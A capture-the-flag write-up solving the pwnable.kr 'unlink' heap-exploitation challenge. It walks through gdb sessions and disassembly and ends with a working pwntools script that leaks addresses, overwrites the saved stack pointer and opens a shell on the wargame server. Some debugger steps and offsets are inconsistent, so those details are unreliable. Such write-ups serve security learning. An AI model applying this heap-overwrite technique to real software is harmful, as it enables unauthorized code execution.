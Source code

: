 # Unlink

Consider the unlink code:

```c
void unlink(OBJ* P){
	OBJ* BK;
	OBJ* FD;
	BK=P->bk;
	FD=P->fd;
	FD->bk=BK;
	BK->fd=FD;
}
```

If we have control over `P` we can essentialy get the following write primitive: for two pointers `p1` and `p2`, we can preform:

```c
/**
 * Notice that p1 is P->bk and p2 is P->fd.
 */
void **p1
void **p2;
*p1 = p2;
*(p2 + 1) = p1;
```

Now, if `p1` is the location of the saved `eip` on the stack, we can let `p2` point to `shell` and win, right?

Lets try in `gdb` first - the address of `shell` is `0x080484eb`, and the address of `eip` on the stack is `0xfff241dc`. We can also see that the address `B` on the heap is `0x09cc4428`. Lets try to set `B->fd` and `B->bk` manually:

```text
# Set a breakpoint at unlink...
# Setting B->fd to be the of the shell function.
(gdb) set {unsigned int}0x08c6b428 = 0x080484eb
# Setting B->bk to be the address of eip on the stack.
(gdb) set {unsigned int}0x08c6b428 = 0xfff241dc
```

Now lets try to continue:

```text
Program received signal SIGSEGV, Segmentation fault.
0x08048521 in unlink ()
```

Hmm... Well, we kinda saw it coming, didnt we? We are trying to write to the code of `shell`, will obviously fail. We can see that in the dump:

```text
(gdb) disas 0x08048521
Dump of assembler code for function unlink:
   0x08048504 <+0>:     push   %ebp
   0x08048505 <+1>:     mov    %esp,%ebp
   0x08048507 <+3>:     sub    $0x10,%esp
   0x0804850a <+6>:     mov    0x8(%ebp),%eax
   0x0804850d <+9>:     mov    0x4(%eax),%eax
   0x08048510 <+12>:    mov    %eax,-0x4(%ebp)
   0x08048513 <+15>:    mov    0x8(%ebp),%eax
   0x08048516 <+18>:    mov    (%eax),%eax
   0x08048518 <+20>:    mov    %eax,-0x8(%ebp)
   0x0804851b <+23>:    mov    -0x8(%ebp),%eax
   0x0804851e <+26>:    mov    -0x4(%ebp),%edx
=> 0x08048521 <+29>:    mov    %edx,0x4(%eax)
   0x08048524 <+32>:    mov    -0x4(%ebp),%eax
   0x08048527 <+35>:    mov    -0x8(%ebp),%edx
   0x0804852a <+38>:    mov    %edx,(%eax)
   0x0804852c <+40>:    nop
   0x0804852d <+41>:    leave
   0x0804852e <+42>:    ret
End of assembler dump.
```
We see we got the `SEGV` when we tried to write to the code `shell`.

New idea: we need the memory that we write to actually be writeable, so we'll just use the heap! We'll a payload of this sort:

```text
+-----------+---------+-----------+-----------+---------+---------+---------+
| 2 bytes   | 2 bytes | 4 bytes   | 5 bytes   | 3 bytes | 4 bytes | 4 bytes |
+-----------+---------+-----------+-----------+---------+---------+---------+
| short jmp | unused  | overidden | jmp shell | unused  | pl addr | ip addr |
+-----------+---------+-----------+-----------+---------+---------+---------+
```
Where the `overriden` part is overriden by `unlink`.

Now for some fun offsets calculations! Using `gdb`, we see that if `A` is `0x0878f410`, then `B` is `0x0878f428`, which means `&(A->buf)` is `0x0878f418` and that the we have 16 bytes to work with. Seems alright!

And for out payload:
* we need a short jump, that is `\xeb\x06` - jumping 6 byte into the future, over the bytes overriden by `unlink`.
* We have 2 unused bytes: `\x90\x90`.
* Another 4 unused bytes: `\x90\x90\x90\x90`.
* A jump to the `shell` function: `\xe9<offset_to_shell>` - we can get that from the heap address leak (remembering that the address of `shell` is `0x080484eb`, and that we are `21` bytes away from the heap address leak).
* Another 3 unused bytes: `\x90\x90\x90`.
* Payload address - we get it from the heap address leak (`+8` for `fd` and `bk`).
* Saved `eip` address on the stack - we get it from the stack address leak (`-24` from testing with `gdb`).
* Dont forget endiannes!

Seems to be good, lets give it a try! Trying with `gdb` first, just to check how things are going...

```text
# A lot of setting up, lets look at the shellcode we put on the heap:
(gdb) x/i 0xa049418
   0xa049418:   jmp    0xa049420
(gdb) x/i 0xa049420
   0xa049420:   jmp    0x80484eb <shell>
# seems good!
```

Continue... and we get another `SEGV`! This entire time the heap was non-executable (NX). Well. This sucks. I have no idea how to pass this. Let's dig in deeper!

Hmm... this piece of code seems really unusual:

```text
(gdb) disas main
   0x0804852f <+0>:     lea    0x4(%esp),%ecx
   0x08048533 <+4>:     and    $0xfffffff0,%esp
   0x08048536 <+7>:     pushl  -0x4(%ecx)
   0x08048539 <+10>:    push   %ebp
   0x0804853a <+11>:    mov    %esp,%ebp
   0x0804853c <+13>:    push   %ecx
   [lots of code...]
   0x080485f2 <+195>:   call   0x8048504 <unlink>
   0x080485f7 <+200>:   add    $0x10,%esp
   0x080485fa <+203>:   mov    $0x0,%eax
   0x080485ff <+208>:   mov    -0x4(%ebp),%ecx
   0x08048602 <+211>:   leave
   0x08048603 <+212>:   lea    -0x4(%ecx),%esp
   0x08048606 <+215>:   ret
End of assembler dump.
```

Lets follow the flow of this weird code. Suppose the return address for main was stored on the stack in `0x1337`, and therefore `esp` is `0x1333`.

* In `+0`, we set `ecx` to the address of the return address on the stack, that is, `0x1337`.
* We do some stuff, and in `+13`, this value is push onto stack again, suppose to `0x420`.
* We execute the code of `main`.
* In `+208`, we move the address stored in `0x420` stack address to `ecx`.
* In `+212` we fix `esp`, and in `+215` we `ret`, which means we move the return address stored in `(%ecx)` to `eip`.

Where can we step in? Of course, if we override `0x420` to point to a place the heap, which in turn also points to the address of `shell`, we win! And we wont have any problems since both the stack and the heap are writeable, and were not trying to execute any code out of the `.text` segment.

So our payload will look something like this:

```text
+----------+---------+---------+------------+
| 16 bytes | 4 bytes | 4 bytes | 4 bytes    |
+----------+---------+---------+------------+
| unused   | &shell  | st addr | shell addr |
+----------+---------+---------+------------+
```

* 16 unused bytes.
* The place we saved the address of `shell` - we get it from heap address leak (`+0x24`).
* The stack address we need to redirect - we get it from the stack address leak (`+10`, using `gdb`).
* The address of `shell` - `0x80484eb`.

Lets put together a quick `pwntools` solution:

```python
import re

from pwn import *

ssh_conn = ssh(
    'unlink',
    'pwnable.kr',
    2222,
    'guest'
)

HEXNUM_RE = re.compile(r'0x[0-9a-f]+')
GET_SHELL_STRING = 'now that you have leaks, get shell!'
SHELL_FUNC = 0x80484eb

unlink_ps = ssh_conn.process(['./unlink'])

data = unlink_ps.recvuntil(GET_SHELL_STRING)

stack, heap = (int(hexstr, 16) for hexstr in re.findall(HEXNUM_RE, data))
print '[+] stack address - {stack}'.format(stack=hex(stack))
print '[+] heap address - {heap}'.format(heap=hex(heap))

unlink_ps.send('A'*16 + p32(heap+0x24) + p32(stack+0x10) + p32(SHELL_FUNC))
unlink_ps.interactive()
```

And lo and behold, it works!
